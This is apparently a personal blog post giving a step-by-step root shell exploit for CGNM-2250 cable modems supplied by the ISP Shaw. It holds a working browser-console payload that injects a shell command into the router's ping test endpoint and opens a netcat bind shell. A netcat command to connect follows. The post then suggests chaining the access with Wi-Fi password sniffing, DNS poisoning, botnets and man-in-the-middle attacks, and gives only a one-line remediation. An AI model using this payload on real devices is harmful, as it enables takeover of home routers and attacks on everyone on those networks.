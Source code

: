 ```yaml
---
title: "cgnm-2250 root reverse shell exploit"
date: 2022-09-29T17:30:14Z
draft: false
tags: [security, cgnm-2250, shaw, cybersec, root, reverse shell, remote code execution, rce, exploit]
summary: 4 year old unpatched rce exploit on cgnm-2250 modems commonly provided by shaw, an internet service provider
---
```


theres an unpatched rce exploit on the cgnm-2250 modems that is commonly used by shaw for their legacy or lower tier plans. shaws new "bluecurve" modems do not use the same firmware and are (in my opinion) a lot worse from a techy person point of view. this also gives us access to a root user as it is the only user on the device.

## requirements
- access to the admin page (login credentials)
- operating system with netcat installed (kali comes with netcat preinstalled)

## steps

1. login to the router page (default 192.168.0.1)
2. open up the console on your web browser (chrome in this example)
3. paste this command into the console:
    ```js
    $.post("/goform/TestIp", {csrf_token: $("#csrf_token").val(), model: '{"TestIpAddress":"; rm -f /dev/myF; mkfifo /dev/myF; cat /dev/myF | /bin/sh -i 2>&1 | nc -l -p 1234 > /dev/myF;","UserType":"1","inputip":1,"TestMode":0}'}, function (data) {console.log(data)})
    ```
    this uses a input sanitization (or lack thereof) exploit in the command input box for ping. (also works with the tracert) the input from the web interface is **client side** sanitized, but if we send the command using the console it does not sanitize the input on the "server," which in our case is the router. we can then use netcat to create a listening server and gain a reverse shell that way.

4. use netcat to the router on port 1234 to connect to the reverse shell

    ```s
    netcat 192.168.0.1 1234
    ```

![netcat screenshot](/notes/images/netcat.png)

## go wild
have fun with this, i used this to setup automatic restarts every few days as the performance of the router degrades after about a few days of uptime from 300mbps download to only 10mbps download. this odd behaviour is simply fixed by just restarting the modem.

you could chain this attack with other ones such as a handshake sniffer to grab the wifi password, which is commonly the same as the router admin page (by default), and perhaps pivot to exploiting devices in the network or using this exploit to gain root access and do dns poisoning, turn your network into a botnet, or perform other exploits like MITM attacks (man in the middle attacks)

## remediation

change your \*\*\*\*ing routers password from the default. <span style="text-decoration:underline">please.</span>

*especially when the default is only 4 numbers different from the original* 

change your ssid while youre at it.
